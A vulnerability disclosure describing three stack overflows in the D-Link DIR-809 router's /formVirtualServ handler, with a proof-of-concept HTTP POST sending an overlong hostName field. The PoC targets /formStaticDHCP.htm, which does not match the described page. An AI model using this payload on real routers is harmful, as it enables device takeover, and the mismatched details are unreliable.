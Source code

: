# D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualServ` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualServ` ), we find three stack overflow vulnerabilities which are of the same type. Each vulnerability allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability, 

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied to stack using `strcpy` without any check. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_09h01_44](README/2021-05-10_09h01_44.png)

The second and third vulnerabilities follow the same paradigm as the first. Two figures below will illustrate them. 

![2021-05-09_20h27_04](README/2021-05-09_20h27_04.png)

![2021-05-09_20h33_14](README/2021-05-09_20h33_14.png)



## PoC

``` 
POST /formStaticDHCP.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 1718
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Network.asp?t=1620545775523
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=v2F31BZVGw
Connection: close

settingsChanged=0&hostName_0=12312312312312312313*0x200&host_ip_0=192.168.0.101&mac_0=3c22fb4473b4&computer_list_ipaddr_select_0=-1&hostName_1=&host_ip_1=&mac_1=&computer_list_ipaddr_select_1=-1&hostName_2=&host_ip_2=&mac_2=&computer_list_ipaddr_select_2=-1&hostName_3=&host_ip_3=&mac_3=&computer_list_ipaddr_select_3=-1&hostName_4=&host_ip_4=&mac_4=&computer_list_ipaddr_select_4=-1&hostName_5=&host_ip_5=&mac_5=&computer_list_ipaddr_select_5=-1&hostName_6=&host_ip_6=&mac_6=&computer_list_ipaddr_select_6=-1&hostName_7=&host_ip_7=&mac_7=&computer_list_ipaddr_select_7=-1&hostName_8=&host_ip_8=&mac_8=&computer_list_ipaddr_select_8=-1&hostName_9=&host_ip_9=&mac_9=&computer_list_ipaddr_select_9=-1&hostName_10=&host_ip_10=&mac_10=&computer_list_ipaddr_select_10=-1&hostName_11=&host_ip_11=&mac_11=&computer_list_ipaddr_select_11=-1&hostName_12=&host_ip_12=&mac_12=&computer_list_ipaddr_select_12=-1&hostName_13=&host_ip_13=&mac_13=&computer_list_ipaddr_select_13=-1&hostName_14=&host_ip_14=&mac_14=&computer_list_ipaddr_select_14=-1&hostName_15=&host_ip_15=&mac_15=&computer_list_ipaddr_select_15=-1&hostName_16=&host_ip_16=&mac_16=&computer_list_ipaddr_select_16=-1&hostName_17=&host_ip_17=&mac_17=&computer_list_ipaddr_select_17=-1&hostName_18=&host_ip_18=&mac_18=&computer_list_ipaddr_select_18=-1&hostName_19=&host_ip_19=&mac_19=&computer_list_ipaddr_select_19=-1&hostName_20=&host_ip_20=&mac_20=&computer_list_ipaddr_select_20=-1&hostName_21=&host_ip_21=&mac_21=&computer_list_ipaddr_select_21=-1&hostName_22=&host_ip_22=&mac_22=&computer_list_ipaddr_select_22=-1&hostName_23=&host_ip_23=&mac_23=&computer_list_ipaddr_select_23=-1&HNAP_AUTH=9ABC7566FEC3D4A69F750618F1E5EA86 1620545783&submit-url=%2FBasic%2FNetwork.asp

```





## Acknowledgment

Credit to [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/) , [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

